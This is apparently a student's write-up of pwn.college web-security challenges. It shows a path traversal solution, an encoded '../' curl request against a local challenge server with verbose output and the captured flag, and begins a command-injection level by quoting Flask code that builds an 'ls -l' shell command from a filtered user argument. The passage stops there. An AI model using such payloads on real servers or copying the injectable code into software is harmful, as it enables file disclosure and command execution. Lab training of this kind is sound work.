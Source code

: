 1. Path Traversal 1

This level will explore the intersection of Linux path resolution, when done naively, and unexpected web requests from an attacker. We've implemented a simple web server for you --- it will serve up files from /challenge/files over HTTP. Can you trick it into giving you the flag?

The webserver program is /challenge/server. You can run it just like any other challenge, then talk to it over HTTP (using a different terminal or a web browser). We recommend reading through its code to understand what it is doing and to find the weakness!

HINT: If you're wondering why your solution isn't working, make sure what you're trying to query is what is actually being received by the server! curl -v [url] can show you the exact bytes that curl is sending over.

- my solution
    hacker@web-security~path-traversal-1:~$ curl -v http://challenge.localhost:80/repository/%2E%2E%2F%2E%2E/flag
    * Host challenge.localhost:80 was resolved.
    * IPv6: ::1
    * IPv4: 127.0.0.1
    *   Trying [::1]:80...
    * connect to ::1 port 80 from ::1 port 56772 failed: Connection refused
    *   Trying 127.0.0.1:80...
    * Connected to challenge.localhost (127.0.0.1) port 80
    * using HTTP/1.x
    > GET /repository/%2E%2E%2F%2E%2E/flag HTTP/1.1
    > Host: challenge.localhost
    > User-Agent: curl/8.12.1
    > Accept: */*
    > 
    * Request completely sent off
    < HTTP/1.1 200 OK
    < Server: Werkzeug/3.0.6 Python/3.8.10
    < Date: Thu, 12 Jun 2025 07:10:08 GMT
    < Content-Type: text/html; charset=utf-8
    < Content-Length: 60
    < Connection: close
    < 
    pwn.college{YFNeZ9Qv6G3Ayx3WpUe13_anpVN.QX3gzMzwiNxQjMyEzW}
    * shutting down connection #0

8. CMDi 6
    Sometimes, developers try very hard to filter out potentially dangerous characters. The success in this challenge is almost perfect, but not quite... You'll be stumped for a while, but will laugh at its familiarity when you figure out the solution!

   - my solution:
        ...
        app.route("/goal", methods=["GET"])
        def challenge():
            arg = (
                flask.request.args.get("subdirectory", "/challenge")
                .replace(";", "")
                .replace("&", "")
                .replace("|", "")
                .replace(">", "")
                .replace("<", "")
                .replace("(", "")
                .replace(")", "")
                .replace("`", "")
                .replace("$", "")
            )
            command = f"ls -l {arg}"
